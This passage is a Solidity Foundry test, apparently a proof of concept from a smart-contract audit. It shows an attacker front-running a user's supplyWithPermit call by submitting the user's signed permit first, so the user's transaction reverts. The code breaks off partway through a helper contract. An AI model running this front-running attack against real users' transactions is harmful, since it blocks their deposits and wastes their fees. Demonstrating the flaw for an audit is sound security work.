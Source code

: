 ```solidity
        
        IAToken aToken = IAToken(aToken_addr);

        (address user, uint256 userPrivateKey) = makeAddrAndKey("USER");
        uint256 amount = 10 ether;

        address attacker = makeAddr("ATTACKER");
        
        console.log("USER want to supply asset with permit on behalf of some user and prepares signature off-chain and submit `supplyWithPermit()` tx");
        SigUtils sigUtils = new SigUtils(aToken.DOMAIN_SEPARATOR());
        SigUtils.Permit memory permit = SigUtils.Permit({
            owner: user,
            spender: address(pool),
            value: amount,
            nonce: 0,
            deadline: block.timestamp
        });
        bytes32 digest = sigUtils.getTypedDataHash(permit);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, digest);

        console.log("While `supplyWithPermit()` tx is in mempool, Attacker frontrun user's supplyWithPermit tx");
        vm.startPrank(attacker);
        aToken.permit(
            permit.owner, 
            permit.spender, 
            permit.value, 
            permit.deadline,
            v,
            r, 
            s
        );
        console.log("Frontrun completed");
        vm.stopPrank();

        vm.startPrank(user);
        console.log("USER's `supplyWithPermit()` tx now get executed but gets reverted as signature is already used");
        vm.expectRevert(); //ERC20Permit: invalid signature
        pool.supplyWithPermit(
            aToken_addr, 
            permit.value, 
            user, 
            0, 
            permit.deadline, 
            v, 
            r, 
            s
        );
        vm.stopPrank();
    }
}

contract SigUtils {
    bytes32 internal DOMAIN_SEPARATOR;

    constructor(bytes32 _DOMAIN_SEPARATOR) {
        DOMAIN_SEPARATOR = _DOMAIN_SEPARATOR;
    }

    // keccak256("Permit(address owner,address spender,uint256 value,uint256 nonce,uint256 deadline)");
```
